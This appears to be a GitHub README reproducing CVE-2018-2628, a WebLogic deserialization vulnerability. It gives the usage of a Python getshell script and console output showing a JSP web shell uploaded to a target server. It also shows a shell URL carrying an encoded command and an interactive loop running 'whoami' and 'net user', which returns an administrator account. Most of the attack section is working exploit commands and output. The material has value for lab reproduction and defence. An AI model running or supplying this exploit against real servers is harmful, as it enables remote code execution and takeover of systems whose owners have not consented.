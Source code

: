 # CVE-2018-2628 WebLogic反序列化漏洞复现

## weblogic getshell

`python CVE-2018-2628-Getshell.py ip port shell1.jsp`

![](./getshell.jpg)
![](./curl-shell.jpg)

```
C:\Users\CTF\Desktop>python CVE-2018-2628-Getshell.py  10.10.20.166 7001 jason1.jsp

   _______      ________    ___   ___  __  ___      ___   __ ___   ___
  / ____\ \    / /  ____|  |__ \ / _ \/_ |/ _ \    |__ \ / /|__ \ / _ \
 | |     \ \  / /| |__ ______ ) | | | || | (_) |_____ ) / /_   ) | (_) |
 | |      \ \/ / |  __|______/ /| | | || |> _ <______/ / '_ \ / / > _ <
 | |____   \  /  | |____    / /_| |_| || | (_) |    / /| (_) / /_| (_) |
  \_____|   \/   |______|  |____|\___/ |_|\___/    |____\___/____|\___/


                          Weblogic Getshell
                                jas502n


handshake successful


 >>>>usage: python cve-2018-2628.py ip port shell1.jsp



>>>Shell File Upload Dir:

servers\AdminServer\tmp\_WL_internal\bea_wls_internal\9j4dqk\war\jason1.jsp


>>>Getshell: http://10.10.20.166:7001/bea_wls_internal/jason1.jsp?tom=d2hvYW1pCg==

C:\Users\CTF\Desktop>
```


### python-poc
![](./cve-2018-2628-docker.jpg)
#### The Docker In Here! https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2018-2628/README.md
![](./cve-2018-2628-poc.jpg)

### 0x01 Nessus Scan

![](./images/CVE-2018-2628-scan.jpg)


### 0x02 K8 Tools GetShell

![](./images/GetShell.PNG)


### 0x03 CMD Query

![](./images/cmd.jpg)


#####  Use-Method:

```
> python cve-2018-2628.py

set url :http://xx.xx.xx.xx:8001/bea_wls_internal/wlscmd.jsp
cmd >>: whoami

win-xxx8cb989qh\administrator

cmd >>: net user

\\WIN-XXX8CB989QH 的用户帐户

-------------------------------------------------------------------------------
Administrator            Guest
命令成功完成。

cmd >>:
```

